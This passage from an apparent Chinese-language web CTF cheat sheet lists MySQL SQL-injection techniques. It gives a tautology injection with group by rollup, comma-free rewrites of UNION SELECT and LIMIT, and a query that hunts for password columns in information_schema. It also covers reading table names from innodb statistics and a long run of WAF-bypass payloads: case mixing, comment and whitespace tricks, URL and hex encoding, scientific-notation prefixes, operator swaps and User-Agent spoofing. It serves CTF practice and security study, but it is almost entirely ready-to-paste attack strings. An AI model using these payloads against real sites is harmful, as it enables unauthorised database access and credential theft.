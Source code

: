 - group by with rollup
  - `' or 1=1 group by pwd with rollup limit 1 offset 2#`

- 將字串轉成純數字
  - 字串 -> 16進位 -> 10進位
  - `conv(hex(YOUR_DATA), 16, 10)`
  - 還原：`unhex(conv(DEC_DATA,10,16))`
  - 需注意不要Overflow

- 不使用逗號
  - `LIMIT N, M` => `LIMIT M OFFSET N`
  - `mid(user(), 1, 1)` => `mid(user() from 1 for 1)`
  - `UNION SELECT 1,2,3` => `UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c)`

- 快速查找帶關鍵字的表
  - `select table_schema,table_name,column_name from information_schema.columns where table_schema !=0x696E666F726D6174696F6E5F736368656D61 and table_schema !=0x6D7973716C and table_schema !=0x706572666F726D616E63655F736368656D61 and (column_name like '%pass%' or column_name like '%pwd%');
  `

- innodb
  - 表引擎為innodb
  - MySQL > 5.5
  - innodb_table_stats、innodb_table_index存放所有庫名表名
  - `select table_name from mysql.innodb_table_stats where database_name=資料庫名;`
  - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)

- Bypass WAF

  - `select password` => `SelEcT password` (大小寫)
  - `select password` => `select/**/password` (繞空白)
  - `select password` => `s%65lect%20password` (URLencode)
  - `select password` => `select(password)` (繞空白)
  - `select password` => `select%0apassword` (繞空白)
    - %09, %0a, %0b, %0c, %0d, %a0
  - `select password from admin` => `select password /*!from*/ admin` (MySQL註解)
  - `information_schema.schemata` => ``` `information_schema`.schemata ``` (繞關鍵字/空白)
    - ``` select xxx from`information_schema`.schemata```
  - `select pass from user where id='admin'` => `select pass from user where id=0x61646d696e` (繞引號)
    - `id=concat(char(0x61),char(0x64),char(0x6d),char(0x69),char(0x6e))`
  - `?id=0e2union select 1,2,3` (科學記號)
    - `?id=1union select 1,2,3`會爛
    - `?id=0e1union(select~1,2,3)` (~)
    - `?id=.1union select 1,2,3` (點)
  - `WHERE` => `HAVING` (繞關鍵字)
  - `AND` => `&&` (繞關鍵字)
    - `OR` => `||`
    - `=` => `LIKE`
    - `a = 'b'` => `not a > 'b' and not a < 'b'`
    - `> 10` => `not between 0 and 10`
  - `LIMIT 0,1` => `LIMIT 1 OFFSET 0` (繞逗號)
    - `substr('kaibro',1,1)` => `substr('kaibro' from 1 for 1)`
  - Multipart/form-data繞過
    - http://xdxd.love/2015/12/18/%E9%80%9A%E8%BF%87multipart-form-data%E7%BB%95%E8%BF%87waf/
  - 偽造User-Agent
    - e.g. 有些WAF不封google bot
